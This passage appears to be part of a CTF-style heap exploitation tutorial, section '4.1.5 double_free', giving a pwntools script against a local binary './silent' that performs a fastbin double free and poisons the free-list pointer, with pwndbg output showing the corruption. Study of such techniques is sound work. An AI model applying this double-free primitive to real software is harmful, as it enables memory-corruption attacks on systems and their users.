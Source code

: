 ## 4.1.5 double_free
write basic framework
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *
from time import sleep
context.log_level = "debug"
context.binary = "./silent"
elf = context.binary

io = process("./silent")

def add(size, cont):
    io.sendline("1")
    io.sendline(str(size))
    io.send(cont)
    sleep(0.01)

def delete(idx):
    io.sendline("2")
    io.sendline(str(idx))

io.interactive()
```
add 3 chunks, delete 0, 1, 0, then add 3 chunks
```python
add(0x50, '00000000')
add(0x50, '11111111')
add(0x10, '/bin/sh')

delete(0) # 0
delete(1) # 0 -> 1
delete(0) # 0 -> 1 -> 0

add(0x50, flat(0xdeadbeef)) #  1 -> 0 -> 0xdeadbeef
add(0x50, 'aaaaaaaa') # 0 -> 0xdeadbeef
pause()
add(0x50, 'bbbbbbbb') # 0xdeadbeef
```
``````
```
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x183f000 ◂— 0xdeadbeef
0x70: 0x0
0x80: 0x0
pwndbg> ni
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0xdeadbeef
0x70: 0x0
0x80: 0x0

```
